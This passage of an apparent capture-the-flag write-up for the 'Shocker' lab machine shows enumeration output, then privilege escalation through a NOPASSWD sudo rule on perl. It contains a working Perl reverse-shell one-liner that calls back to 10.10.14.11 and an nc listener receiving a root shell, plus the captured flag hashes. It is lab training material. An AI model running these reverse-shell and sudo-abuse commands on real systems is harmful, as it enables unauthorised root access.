root        171  0.0  0.0      0     0 ?        S<   Feb15   0:00 [scsi_tmf_3]
root        173  0.0  0.0      0     0 ?        S    Feb15   0:00 [scsi_eh_4]
root        174  0.0  0.0      0     0 ?        S<   Feb15   0:00 [scsi_tmf_4]
root        176  0.0  0.0      0     0 ?        S    Feb15   0:00 [scsi_eh_5]
root        178  0.0  0.0      0     0 ?        S<   Feb15   0:00 [scsi_tmf_5]
root        179  0.0  0.0      0     0 ?        S    Feb15   0:00 [scsi_eh_6]
root        181  0.0  0.0      0     0 ?        S<   Feb15   0:00 [scsi_tmf_6]
root        183  0.0  0.0      0     0 ?        S    Feb15   0:00 [scsi_eh_7]
root        185  0.0  0.0      0     0 ?        S<   Feb15   0:00 [scsi_tmf_7]
root        187  0.0  0.0      0     0 ?        S    Feb15   0:00 [scsi_eh_8]
root        190  0.0  0.0      0     0 ?        S<   Feb15   0:00 [scsi_tmf_8]
root        191  0.0  0.0      0     0 ?        S    Feb15   0:00 [scsi_eh_9]
root        192  0.0  0.0      0     0 ?        S<   Feb15   0:00 [scsi_tmf_9]
root        193  0.0  0.0      0     0 ?        S    Feb15   0:00 [scsi_eh_10]
root        194  0.0  0.0      0     0 ?        S<   Feb15   0:00 [scsi_tmf_10]
root        195  0.0  0.0      0     0 ?        S    Feb15   0:00 [scsi_eh_11]
root        196  0.0  0.0      0     0 ?        S<   Feb15   0:00 [scsi_tmf_11]
root        197  0.0  0.0      0     0 ?        S    Feb15   0:00 [scsi_eh_12]
root        198  0.0  0.0      0     0 ?        S<   Feb15   0:00 [scsi_tmf_12]
root        199  0.0  0.0      0     0 ?        S    Feb15   0:00 [scsi_eh_13]
root        200  0.0  0.0      0     0 ?        S<   Feb15   0:00 [scsi_tmf_13]
root        201  0.0  0.0      0     0 ?        S    Feb15   0:00 [scsi_eh_14]
root        202  0.0  0.0      0     0 ?        S<   Feb15   0:00 [scsi_tmf_14]
root        203  0.0  0.0      0     0 ?        S    Feb15   0:00 [scsi_eh_15]
root        204  0.0  0.0      0     0 ?        S<   Feb15   0:00 [scsi_tmf_15]
root        205  0.0  0.0      0     0 ?        S    Feb15   0:00 [scsi_eh_16]
root        206  0.0  0.0      0     0 ?        S<   Feb15   0:00 [scsi_tmf_16]
root        207  0.0  0.0      0     0 ?        S    Feb15   0:00 [scsi_eh_17]
root        208  0.0  0.0      0     0 ?        S<   Feb15   0:00 [scsi_tmf_17]
root        209  0.0  0.0      0     0 ?        S    Feb15   0:00 [scsi_eh_18]
root        210  0.0  0.0      0     0 ?        S<   Feb15   0:00 [scsi_tmf_18]
root        211  0.0  0.0      0     0 ?        S    Feb15   0:00 [scsi_eh_19]
root        212  0.0  0.0      0     0 ?        S<   Feb15   0:00 [scsi_tmf_19]
root        213  0.0  0.0      0     0 ?        S    Feb15   0:00 [scsi_eh_20]
root        214  0.0  0.0      0     0 ?        S<   Feb15   0:00 [scsi_tmf_20]
root        215  0.0  0.0      0     0 ?        S    Feb15   0:00 [scsi_eh_21]
root        216  0.0  0.0      0     0 ?        S<   Feb15   0:00 [scsi_tmf_21]
root        217  0.0  0.0      0     0 ?        S    Feb15   0:00 [scsi_eh_22]
root        218  0.0  0.0      0     0 ?        S<   Feb15   0:00 [scsi_tmf_22]
root        219  0.0  0.0      0     0 ?        S    Feb15   0:00 [scsi_eh_23]
root        220  0.0  0.0      0     0 ?        S<   Feb15   0:00 [scsi_tmf_23]
root        221  0.0  0.0      0     0 ?        S    Feb15   0:00 [scsi_eh_24]
root        222  0.0  0.0      0     0 ?        S<   Feb15   0:00 [scsi_tmf_24]
root        223  0.0  0.0      0     0 ?        S    Feb15   0:00 [scsi_eh_25]
root        224  0.0  0.0      0     0 ?        S<   Feb15   0:00 [scsi_tmf_25]
root        225  0.0  0.0      0     0 ?        S    Feb15   0:00 [scsi_eh_26]
root        226  0.0  0.0      0     0 ?        S<   Feb15   0:00 [scsi_tmf_26]
root        227  0.0  0.0      0     0 ?        S    Feb15   0:00 [scsi_eh_27]
root        228  0.0  0.0      0     0 ?        S<   Feb15   0:00 [scsi_tmf_27]
root        229  0.0  0.0      0     0 ?        S    Feb15   0:00 [scsi_eh_28]
root        230  0.0  0.0      0     0 ?        S<   Feb15   0:00 [scsi_tmf_28]
root        231  0.0  0.0      0     0 ?        S    Feb15   0:00 [scsi_eh_29]
root        232  0.0  0.0      0     0 ?        S<   Feb15   0:00 [scsi_tmf_29]
root        233  0.0  0.0      0     0 ?        S    Feb15   0:00 [scsi_eh_30]
root        234  0.0  0.0      0     0 ?        S<   Feb15   0:00 [scsi_tmf_30]
root        235  0.0  0.0      0     0 ?        S    Feb15   0:00 [scsi_eh_31]
root        236  0.0  0.0      0     0 ?        S<   Feb15   0:00 [scsi_tmf_31]
root        237  0.0  0.0      0     0 ?        S    Feb15   0:00 [scsi_eh_32]
root        238  0.0  0.0      0     0 ?        S<   Feb15   0:00 [scsi_tmf_32]
root        262  0.0  0.0      0     0 ?        S    Feb15   0:01 [kworker/u256:28]
root        263  0.0  0.0      0     0 ?        S    Feb15   0:00 [kworker/u256:29]
root        335  0.0  0.0      0     0 ?        S<   Feb15   0:00 [raid5wq]
root        360  0.0  0.0      0     0 ?        S<   Feb15   0:00 [kdmflush]
root        361  0.0  0.0      0     0 ?        S<   Feb15   0:00 [bioset]
root        371  0.0  0.0      0     0 ?        S<   Feb15   0:00 [kdmflush]
root        372  0.0  0.0      0     0 ?        S<   Feb15   0:00 [bioset]
root        389  0.0  0.0      0     0 ?        S<   Feb15   0:00 [bioset]
root        417  0.0  0.0      0     0 ?        S    Feb15   0:00 [jbd2/dm-0-8]
root        418  0.0  0.0      0     0 ?        S<   Feb15   0:00 [ext4-rsv-conver]
root        459  0.0  0.0      0     0 ?        S<   Feb15   0:00 [kworker/0:1H]
root        468  0.0  0.0      0     0 ?        S<   Feb15   0:00 [iscsi_eh]
root        480  0.0  0.0      0     0 ?        S<   Feb15   0:00 [ib_addr]
root        491  0.0  0.0      0     0 ?        S<   Feb15   0:00 [ib_mcast]
root        492  0.0  0.5  27688  2760 ?        Ss   Feb15   0:00 /lib/systemd/systemd-journald
root        496  0.0  0.0      0     0 ?        S<   Feb15   0:00 [ib_nl_sa_wq]
root        498  0.0  0.0      0     0 ?        S    Feb15   0:00 [kauditd]
root        499  0.0  0.0      0     0 ?        S<   Feb15   0:00 [ib_cm]
root        504  0.0  0.0      0     0 ?        S<   Feb15   0:00 [iw_cm_wq]
root        509  0.0  0.0      0     0 ?        S<   Feb15   0:00 [rdma_cm]
root        533  0.0  0.3 102968  1744 ?        Ss   Feb15   0:00 /sbin/lvmetad -f
root        545  0.0  0.8  44812  3872 ?        Ss   Feb15   0:00 /lib/systemd/systemd-udevd
root        717  0.0  0.0      0     0 ?        S<   Feb15   0:00 [ext4-rsv-conver]
systemd+    749  0.0  0.4 100324  2404 ?        Ssl  Feb15   0:09 /lib/systemd/systemd-timesyncd
root        954  0.0  0.5  29008  2772 ?        Ss   Feb15   0:00 /usr/sbin/cron -f
message+    957  0.0  0.7  42900  3504 ?        Ss   Feb15   0:00 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation
root        964  0.0  3.8 277868 18408 ?        Ssl  Feb15   0:01 /usr/lib/snapd/snapd
syslog      966  0.0  0.6 256396  2960 ?        Ssl  Feb15   0:00 /usr/sbin/rsyslogd -n
daemon      972  0.0  0.4  26044  2020 ?        Ss   Feb15   0:00 /usr/sbin/atd -f
root        984  0.0  0.5  20100  2788 ?        Ss   Feb15   0:00 /lib/systemd/systemd-logind
root        988  0.0  2.0 186104 10060 ?        Ssl  Feb15   1:52 /usr/bin/vmtoolsd
root        989  0.0  0.4 637396  2276 ?        Ssl  Feb15   0:00 /usr/bin/lxcfs /var/lib/lxcfs/
root        997  0.0  0.2   4400  1324 ?        Ss   Feb15   0:00 /usr/sbin/acpid
root        998  0.0  1.2 275864  5932 ?        Ssl  Feb15   0:02 /usr/lib/accountsservice/accounts-daemon
root       1024  0.0  1.1 277088  5560 ?        Ssl  Feb15   0:00 /usr/lib/policykit-1/polkitd --no-debug
root       1039  0.0  0.0  13376   168 ?        Ss   Feb15   0:00 /sbin/mdadm --monitor --pid-file /run/mdadm/monitor.pid --daemonise --scan --syslog
root       1114  0.0  1.2  65520  5900 ?        Ss   Feb15   0:00 /usr/sbin/sshd -D
root       1130  0.0  0.0   5224   136 ?        Ss   Feb15   0:04 /sbin/iscsid
root       1131  0.0  0.7   5724  3528 ?        S<Ls Feb15   0:21 /sbin/iscsid
root       1198  0.0  0.3  15940  1628 tty1     Ss+  Feb15   0:00 /sbin/agetty --noclear tty1 linux
root       1252  0.0  1.0  73684  4864 ?        Ss   Feb15   0:06 /usr/sbin/apache2 -k start
shelly    12013  0.0  0.7  73684  3532 ?        S    06:25   0:00 /usr/sbin/apache2 -k start
shelly    12014  0.2  0.5 363992  2736 ?        Sl   06:25   0:59 /usr/sbin/apache2 -k start
shelly    12015  0.2  0.5 560600  2772 ?        Sl   06:25   0:59 /usr/sbin/apache2 -k start
root      12187  0.0  0.0      0     0 ?        S    11:28   0:00 [kworker/0:2]
shelly    12240  0.0  0.8  18944  4020 ?        S    12:42   0:00 /bin/bash -i
shelly    12254  0.0  1.7  35832  8600 ?        S    12:43   0:00 python3 -c import pty; pty.spawn("/bin/bash")
shelly    12255  0.0  0.8  18944  4008 pts/0    Ss   12:43   0:00 /bin/bash
shelly    12268  0.3  0.6  18448  3276 pts/0    S+   12:56   0:00 bash
shelly    12269  0.0  0.5  18508  2820 pts/0    S+   12:56   0:00 bash
shelly    12270  0.0  0.1   4384   812 pts/0    S+   12:56   0:00 tee -a
shelly    12433  0.0  0.4  18508  2244 pts/0    S+   12:56   0:00 bash
shelly    12434  0.0  0.5  34424  2864 pts/0    R+   12:56   0:00 ps aux


Process binaries & associated permissions (from above list):
-rwxr-xr-x 1 root root   955024 Apr  3  2012 /bin/bash
-rwxr-xr-x 1 root root   326224 Jul 18  2017 /lib/systemd/systemd-journald
-rwxr-xr-x 1 root root   618520 Jul 18  2017 /lib/systemd/systemd-logind
-rwxr-xr-x 1 root root   141904 Jul 18  2017 /lib/systemd/systemd-timesyncd
-rwxr-xr-x 1 root root   453240 Jul 18  2017 /lib/systemd/systemd-udevd
-rwxr-xr-x 1 root root    44104 Jun 14  2017 /sbin/agetty
lrwxrwxrwx 1 root root       20 Jul 18  2017 /sbin/init -> /lib/systemd/systemd
-rwxr-xr-x 1 root root   783984 Jul 26  2017 /sbin/iscsid
-rwxr-xr-x 1 root root    51336 Apr 16  2016 /sbin/lvmetad
-rwxr-xr-x 1 root root   513216 Feb 20  2017 /sbin/mdadm
-rwxr-xr-x 1 root root   224208 Jan 12  2017 /usr/bin/dbus-daemon
-rwxr-xr-x 1 root root    18504 Jul  5  2017 /usr/bin/lxcfs
-rwxr-xr-x 1 root root    44528 Feb  9  2017 /usr/bin/vmtoolsd
-rwxr-xr-x 1 root root   164928 Nov  3  2016 /usr/lib/accountsservice/accounts-daemon
-rwxr-xr-x 1 root root    15048 Jan 17  2016 /usr/lib/policykit-1/polkitd
-rwxr-xr-x 1 root root 20031344 Aug 31 06:17 /usr/lib/snapd/snapd
-rwxr-xr-x 1 root root    48112 Apr  8  2016 /usr/sbin/acpid
-rwxr-xr-x 1 root root   662496 Sep 18 12:39 /usr/sbin/apache2
-rwxr-xr-x 1 root root    26632 Jan 14  2016 /usr/sbin/atd
-rwxr-xr-x 1 root root    44472 Apr  5  2016 /usr/sbin/cron
-rwxr-xr-x 1 root root   599328 Apr  5  2016 /usr/sbin/rsyslogd
-rwxr-xr-x 1 root root   799216 Mar 16  2017 /usr/sbin/sshd


/etc/init.d/ binary permissions:
total 316
drwxr-xr-x  2 root root 4096 Sep 22 14:11 .
drwxr-xr-x 90 root root 4096 Sep 22 15:55 ..
-rw-r--r--  1 root root 1183 Sep 22 14:11 .depend.boot
-rw-r--r--  1 root root 1020 Sep 22 14:11 .depend.start
-rw-r--r--  1 root root 1167 Sep 22 14:11 .depend.stop
-rw-r--r--  1 root root 2427 Jan 19  2016 README
-rwxr-xr-x  1 root root 2243 Feb  9  2016 acpid
-rwxr-xr-x  1 root root 2210 Apr  5  2016 apache-htcacheclean
-rwxr-xr-x  1 root root 8087 Apr  5  2016 apache2
-rwxr-xr-x  1 root root 6223 Mar  3  2017 apparmor
-rwxr-xr-x  1 root root 2799 Mar 31  2016 apport
-rwxr-xr-x  1 root root 1071 Dec  6  2015 atd
-rwxr-xr-x  1 root root 1275 Jan 19  2016 bootmisc.sh
-rwxr-xr-x  1 root root 3807 Jan 19  2016 checkfs.sh
-rwxr-xr-x  1 root root 1098 Jan 19  2016 checkroot-bootclean.sh
-rwxr-xr-x  1 root root 9353 Jan 19  2016 checkroot.sh
-rwxr-xr-x  1 root root 1343 Apr  4  2016 console-setup
-rwxr-xr-x  1 root root 3049 Apr  5  2016 cron
-rwxr-xr-x  1 root root  937 Mar 28  2015 cryptdisks
-rwxr-xr-x  1 root root  896 Mar 28  2015 cryptdisks-early
-rwxr-xr-x  1 root root 2813 Dec  1  2015 dbus
-rwxr-xr-x  1 root root 1105 Mar 15  2016 grub-common
-rwxr-xr-x  1 root root 1336 Jan 19  2016 halt
-rwxr-xr-x  1 root root 1423 Jan 19  2016 hostname.sh
-rwxr-xr-x  1 root root 3809 Mar 12  2016 hwclock.sh
-rwxr-xr-x  1 root root 2372 Apr 11  2016 irqbalance
-rwxr-xr-x  1 root root 1503 Mar 29  2016 iscsid
-rwxr-xr-x  1 root root 1804 Apr  4  2016 keyboard-setup.dpkg-bak
-rwxr-xr-x  1 root root 1300 Jan 19  2016 killprocs
-rwxr-xr-x  1 root root 2087 Dec 20  2015 kmod
-rwxr-xr-x  1 root root  695 Oct 30  2015 lvm2
-rwxr-xr-x  1 root root  571 Oct 30  2015 lvm2-lvmetad
-rwxr-xr-x  1 root root  586 Oct 30  2015 lvm2-lvmpolld
-rwxr-xr-x  1 root root 2300 Jun 29  2016 lxcfs
-rwxr-xr-x  1 root root 2541 Jun 30  2016 lxd
-rwxr-xr-x  1 root root 2611 Apr 11  2016 mdadm
-rwxr-xr-x  1 root root 1199 Jul 16  2014 mdadm-waitidle
-rwxr-xr-x  1 root root  703 Jan 19  2016 mountall-bootclean.sh
-rwxr-xr-x  1 root root 2301 Jan 19  2016 mountall.sh
-rwxr-xr-x  1 root root 1461 Jan 19  2016 mountdevsubfs.sh
-rwxr-xr-x  1 root root 1564 Jan 19  2016 mountkernfs.sh
-rwxr-xr-x  1 root root  711 Jan 19  2016 mountnfs-bootclean.sh
-rwxr-xr-x  1 root root 2456 Jan 19  2016 mountnfs.sh
-rwxr-xr-x  1 root root 4771 Jul 19  2015 networking
-rwxr-xr-x  1 root root 1581 Oct 15  2015 ondemand
-rwxr-xr-x  1 root root 2503 Mar 29  2016 open-iscsi
-rwxr-xr-x  1 root root 1578 Mar 29  2016 open-vm-tools
-rwxr-xr-x  1 root root 1366 Nov 15  2015 plymouth
-rwxr-xr-x  1 root root  752 Nov 15  2015 plymouth-log
-rwxr-xr-x  1 root root 1192 Sep  6  2015 procps
-rwxr-xr-x  1 root root 6366 Jan 19  2016 rc
-rwxr-xr-x  1 root root  820 Jan 19  2016 rc.local
-rwxr-xr-x  1 root root  117 Jan 19  2016 rcS
-rwxr-xr-x  1 root root  661 Jan 19  2016 reboot
-rwxr-xr-x  1 root root 4149 Nov 23  2015 resolvconf
-rwxr-xr-x  1 root root 4355 Jul 10  2014 rsync
-rwxr-xr-x  1 root root 2796 Feb  3  2016 rsyslog
-rwxr-xr-x  1 root root 1226 Jun  9  2015 screen-cleanup
-rwxr-xr-x  1 root root 3927 Jan 19  2016 sendsigs
-rwxr-xr-x  1 root root  597 Jan 19  2016 single
-rw-r--r--  1 root root 1087 Jan 19  2016 skeleton
-rwxr-xr-x  1 root root 4077 Apr 27  2016 ssh
-rwxr-xr-x  1 root root 6087 Apr 12  2016 udev
-rwxr-xr-x  1 root root 2049 Aug  7  2014 ufw
-rwxr-xr-x  1 root root 2737 Jan 19  2016 umountfs
-rwxr-xr-x  1 root root 2202 Jan 19  2016 umountnfs.sh
-rwxr-xr-x  1 root root 1879 Jan 19  2016 umountroot
-rwxr-xr-x  1 root root 1391 Apr 20  2017 unattended-upgrades
-rwxr-xr-x  1 root root 3111 Jan 19  2016 urandom
-rwxr-xr-x  1 root root 1306 May 26  2016 uuidd


### SOFTWARE #############################################
Sudo version:
Sudo version 1.8.16


Apache version:
Server version: Apache/2.4.18 (Ubuntu)
Server built:   2017-09-18T15:09:02


Apache user configuration:
APACHE_RUN_USER=shelly
APACHE_RUN_GROUP=shelly


Installed Apache modules:
Loaded Modules:
 core_module (static)
 so_module (static)
 watchdog_module (static)
 http_module (static)
 log_config_module (static)
 logio_module (static)
 version_module (static)
 unixd_module (static)
 access_compat_module (shared)
 alias_module (shared)
 auth_basic_module (shared)
 authn_core_module (shared)
 authn_file_module (shared)
 authz_core_module (shared)
 authz_host_module (shared)
 authz_user_module (shared)
 autoindex_module (shared)
 cgid_module (shared)
 deflate_module (shared)
 dir_module (shared)
 env_module (shared)
 filter_module (shared)
 mime_module (shared)
 mpm_event_module (shared)
 negotiation_module (shared)
 setenvif_module (shared)
 status_module (shared)


Anything in the Apache home dirs?:
/var/www/:
total 12K
drwxr-xr-x  3 root root 4.0K Sep 22 14:11 .
drwxr-xr-x 14 root root 4.0K Sep 22 14:11 ..
drwxr-xr-x  2 root root 4.0K Sep 22 16:01 html

/var/www/html:
total 48K
drwxr-xr-x 2 root root 4.0K Sep 22 16:01 .
drwxr-xr-x 3 root root 4.0K Sep 22 14:11 ..
-rw-r--r-- 1 root root  36K Sep 25  2014 bug.jpg
-rw-r--r-- 1 root root  137 Sep 22 16:01 index.html


### INTERESTING FILES ####################################
Useful file locations:
/bin/nc
/bin/netcat
/usr/bin/wget


Can we read/write sensitive files:
-rw-r--r-- 1 root root 1567 Sep 22 12:33 /etc/passwd
-rw-r--r-- 1 root root 801 Sep 22 15:42 /etc/group
-rw-r--r-- 1 root root 575 Oct 22  2015 /etc/profile
-rw-r----- 1 root shadow 1041 Sep 22 15:32 /etc/shadow


Can't search *.conf files as no keyword was entered

Can't search *.log files as no keyword was entered

Can't search *.ini files as no keyword was entered

All *.conf files in /etc (recursive 1 level):
-rw-r--r-- 1 root root 350 Sep 22 12:32 /etc/popularity-contest.conf
-rw-r--r-- 1 root root 2969 Nov 10  2015 /etc/debconf.conf
-rw-r--r-- 1 root root 703 May  6  2015 /etc/logrotate.conf
-rw-r--r-- 1 root root 2084 Sep  6  2015 /etc/sysctl.conf
-rw-r--r-- 1 root root 338 Nov 18  2014 /etc/updatedb.conf
-rw-r--r-- 1 root root 4781 Mar 17  2016 /etc/hdparm.conf
-rw-r--r-- 1 root root 14867 Apr 12  2016 /etc/ltrace.conf
-rw-r--r-- 1 root root 34 Jan 27  2016 /etc/ld.so.conf
-rw-r--r-- 1 root root 771 Mar  6  2015 /etc/insserv.conf
-rw-r--r-- 1 root root 7788 Sep 22 12:32 /etc/ca-certificates.conf
-rw-r--r-- 1 root root 144 Sep 22 12:33 /etc/kernel-img.conf
-rw-r--r-- 1 root root 3028 Jul 19  2016 /etc/adduser.conf
-rw-r--r-- 1 root root 497 May  4  2014 /etc/nsswitch.conf
-rw-r--r-- 1 root root 92 Oct 22  2015 /etc/host.conf
-rw-r--r-- 1 root root 552 Mar 16  2016 /etc/pam.conf
-rw-r--r-- 1 root root 191 Jan 18  2016 /etc/libaudit.conf
-rw-r--r-- 1 root root 280 Jun 20  2014 /etc/fuse.conf
-rw-r--r-- 1 root root 2584 Feb 18  2016 /etc/gai.conf
-rw-r--r-- 1 root root 604 Jul  2  2015 /etc/deluser.conf
-rw-r--r-- 1 root root 100 Nov 25  2015 /etc/sos.conf
-rw-r--r-- 1 root root 967 Oct 30  2015 /etc/mke2fs.conf
-rw-r--r-- 1 root root 6816 May 11  2017 /etc/overlayroot.conf
-rw-r--r-- 1 root root 1260 Mar 16  2016 /etc/ucf.conf
-rw-r--r-- 1 root root 1371 Jan 27  2016 /etc/rsyslog.conf


Current user's history files:
-rw------- 1 root root 0 Sep 25 08:29 /home/shelly/.bash_history


Any interesting mail in /var/mail:
total 8
drwxrwsr-x  2 root mail 4096 Jul 19  2016 .
drwxr-xr-x 14 root root 4096 Sep 22 14:11 ..


We're a member of the (lxd) group - could possibly misuse these rights!:
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)


### SCAN COMPLETE ####################################
shelly@Shocker:/usr/lib/cgi-bin$
```

```sh
shelly@Shocker:/usr/lib/cgi-bin$ cd /dev/shm
cd /dev/shm
shelly@Shocker:/dev/shm$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
shelly@Shocker:/dev/shm$
```

[``Reverse Shell Cheat Sheet``](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```perl
perl -e 'use Socket;$i="10.10.14.11";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

```sh
shelly@Shocker:/dev/shm$ sudo perl -e 'use Socket;$i="10.10.14.11";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

```sh
root@kali:~/shocker# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.56] 42922
# id
uid=0(root) gid=0(root) groups=0(root)
#
```

```sh
shelly@Shocker:/usr/lib/cgi-bin$ sudo /usr/bin/perl -e 'exec("/bin/bash")'
sudo /usr/bin/perl -e 'exec("/bin/bash")'

id
uid=0(root) gid=0(root) groups=0(root)
```

```sh
# cat /root/root.txt
52c2715605d70c7619030560dc1ca467
#
```

```sh
shelly@Shocker:/home/shelly$ cat user.txt
cat user.txt
2ec24e11320026d1e70ff3e16695b233
shelly@Shocker:/home/shelly$
```